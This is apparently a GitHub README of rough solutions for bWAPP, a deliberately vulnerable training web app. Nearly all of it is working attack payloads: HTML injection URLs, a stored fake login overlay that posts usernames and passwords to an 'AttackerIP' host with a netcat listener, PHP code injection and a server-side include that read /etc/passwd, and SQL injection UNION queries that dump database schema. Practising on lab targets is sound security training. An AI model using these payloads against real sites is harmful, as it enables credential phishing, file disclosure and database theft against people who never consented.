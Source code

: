 # solutions-bwapp
Rough solutions

### HTML Injection - Reflected (GET)
htmli_get.php

```
http://bepp:8088/bWAPP/htmli_get.php?firstname=%3Ch1%3EHello%3C%2Fh1%3E&lastname=%3Ch2%3EWorld%3C%2Fh2%3E&form=submit
```
 
### HTML Injection - Reflected (POST)

```
<h1>Hello</h1>
<h2>World</h2>
```

### HTML Injection - Reflected (URL)

XXX:  Todo, IE only?
```
http://bepp:8088/bWAPP/htmli_current_url.php
```

### HTML Injection - Stored (Blog)

Following solution taken from:
```
http://penthusiasts.blogspot.com/2013/12/bwapp-html-injection-all.html
```
```
<div style="position: absolute; left: 0px; top: 0px; width: 1900px; height: 1300px; z-index: 1000; background-color:white; padding: 1em;">Please login with valid credentials:<br><form name="login" action="http://AttackerIP/login.htm"><table><tr><td>Username:</td><td><input type="text" name="username"/></td></tr><tr><td>Password:</td><td><input type="text" name="password"/></td></tr><tr><td colspan=2 align=center><input type="submit" value="Login"/></td></tr></table></form></div>
```

Attacker's machine:
```
nc -l 80
```

### PHP Code Injection

```
http://bepp:8088/bWAPP/phpi.php?message=a;echo "what"; $fp = fopen("/etc/passwd","r");$result = fread($fp,8192); echo $result
```
### Server-Side Includes:

```
<!--#echo var="DATE_LOCAL" -->
<!--#exec cmd="cat /etc/passwd" -->
```

### SQL Injection (GET/SEARCH)

```
a%' UNION ALL SELECT table_schema,table_name, null, null, null, null, null from information_schema.tables;--
```

### SQL Injection (GET/SELECT)

```
movie=1 UNION ALL SELECT table_schema, table_name, null, null, null, null, null FROM information_schema.tables LIMIT 1 OFFSET 1;--
```
![](https://github.com/skiptomyliu/solutions-bwapp/blob/master/screenshots/sqli_2_1.png)
![](https://github.com/skiptomyliu/solutions-bwapp/blob/master/screenshots/sqli_2_2.png)
